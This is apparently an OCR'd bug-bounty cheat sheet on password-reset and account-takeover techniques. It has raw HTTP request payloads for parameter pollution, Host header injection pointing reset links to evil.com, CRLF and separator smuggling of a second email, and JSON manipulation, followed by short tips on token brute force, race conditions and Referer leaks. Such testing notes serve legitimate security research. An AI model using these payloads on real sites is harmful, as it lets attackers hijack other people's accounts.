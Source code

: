 ```yaml
---

### **Password Reset & Account Takeover Techniques**

#### **1. Parameter Pollution**
POST /reset HTTP/1.1
Host: target.com
...
```

email=victim@mail.com&email=hacker@mail.com

#### **2. Host Header Injection**
POST /reset HTTP/1.1
Host: target.com
X-Forwarded-Host: evil.com
...
email=victim@mail.com

#### **3. Using Separators in Parameter Values**
POST /reset HTTP/1.1
Host: target.com
...
email=victim@mail.com,hacker@mail.com

email=victim@mail.com%00hacker@mail.com

email=victim@mail.com|hacker@mail.com

email=victim@mail.com%20hacker@mail.com

#### **4. No Domain in Parameter Value**
POST /reset HTTP/1.1
Host: target.com
...
email=victim

#### **5. No TLD in Parameter Value**
POST /reset HTTP/1.1
Host: target.com
...
email=victim@mail

#### **6. Using Carbon Copy (CC)**
POST /reset HTTP/1.1
Host: target.com
...
email=victim@mail.com%0a%0dcc:hacker@mail.com

#### **7. JSON Data Manipulation**
POST /newaccount HTTP/1.1
Host: target.com
...
{"email":"victim@mail.com","hacker@mail.com","token":"xxxxxxxxxx"}

#### **8. Token Generation Analysis**
- Generated based on TimeStamp
- Generated based on the ID of the user
- Generated based on the email of the user
- Generated based on the name of the user

#### **9. Cross-Site Scripting (XSS) in the Form**
- Try injecting XSS payloads in the password reset form.

#### **10. Race Condition**
- Send victim reset password and attacker reset password requests simultaneously.

#### **11. Password Reset Token Leak Via Referrer**
- Check if the reset token is leaked in the HTTP Referrer header.

#### **12. Guessable UUID**
- Test if the reset token is a guessable UUID.

#### **13. Brute Force Password Reset Token**
- Attempt to brute force the reset token if it is short or predictable.

#### **14. Try Using Your Token**
- Use your own reset token on another account to see if it works.

#### **15. Reset Password with Email 1, Change Email to Another**
- Reset password with email 1, then change email to another. Check if the link from email 1 still works.

#### **16. References**
- Twitter Post: https://x.com/Securrtech/status/1776580537429422217
- Bugcrowd Blog: https://www.bugcrowd.com/blog/breaking-the-chain-exploiting-oauth-and-forgot-password-for-account-takeover/

---

-- https://xmind.ai/share/UYJM9L9t
